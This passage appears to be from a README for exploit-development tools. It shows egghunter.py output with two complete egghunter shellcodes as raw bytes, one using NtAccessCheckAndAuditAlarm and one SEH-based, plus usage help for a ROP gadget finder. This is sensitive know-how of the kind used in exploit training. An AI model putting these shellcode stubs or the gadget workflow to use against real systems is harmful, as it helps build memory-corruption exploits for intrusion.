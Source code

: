 generate egghunter with `w00tw00t` tag

```
./egghunter.py --tag w00t
[+] egghunter created!
[=]   len: 35 bytes
[=]   tag: w00tw00t
[=]   ver: NtAccessCheckAndAuditAlarm

egghunter = b"\x66\x81\xca\xff\x0f\x42\x52\x31\xc0\x66\x05\xc6\x01\xcd\x2e\x3c\x05\x5a\x74\xec\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7"

```

generate SEH-based egghunter while checking for bad characters (does not alter
the shellcode, that's to be done manually)

```
./egghunter.py -b 00 0a 25 26 3d --seh
[+] egghunter created!
[=]   len: 69 bytes
[=]   tag: c0d3c0d3
[=]   ver: SEH

egghunter = b"\xeb\x2a\x59\xb8\x63\x30\x64\x33\x51\x6a\xff\x31\xdb\x64\x89\x23\x83\xe9\x04\x83\xc3\x04\x64\x89\x0b\x6a\x02\x59\x89\xdf\xf3\xaf\x75\x07\xff\xe7\x66\x81\xcb\xff\x0f\x43\xeb\xed\xe8\xd1\xff\xff\xff\x6a\x0c\x59\x8b\x04\x0c\xb1\xb8\x83\x04\x08\x06\x58\x83\xc4\x10\x50\x31\xc0\xc3"

```

### find-gadgets.py

Finds and categorizes useful gadgets. Only prints to terminal the cleanest
gadgets available (minimal amount of garbage between what's searched for and the
final ret instruction). All gadgets are written to a text file for further
searching.

requires [rich](https://github.com/willmcgugan/rich) and
[ropper](https://github.com/sashs/Ropper)

```text
usage: find-gadgets.py [-h] -f FILES [FILES ...] [-b BAD_CHARS [BAD_CHARS ...]] [-o OUTPUT]

Searches for clean, categorized gadgets from a given list of files

optional arguments:
  -h, --help            show this help message and exit
  -f FILES [FILES ...], --files FILES [FILES ...]
                        space separated list of files from which to pull gadgets (optionally, add base address (libspp.dll:0x10000000))
  -b BAD_CHARS [BAD_CHARS ...], --bad-chars BAD_CHARS [BAD_CHARS ...]
                        space separated list of bad chars to omit from gadgets (default: 00)
  -o OUTPUT, --output OUTPUT
                        name of output file where all (uncategorized) gadgets are written (default: found-gadgets.txt)
```
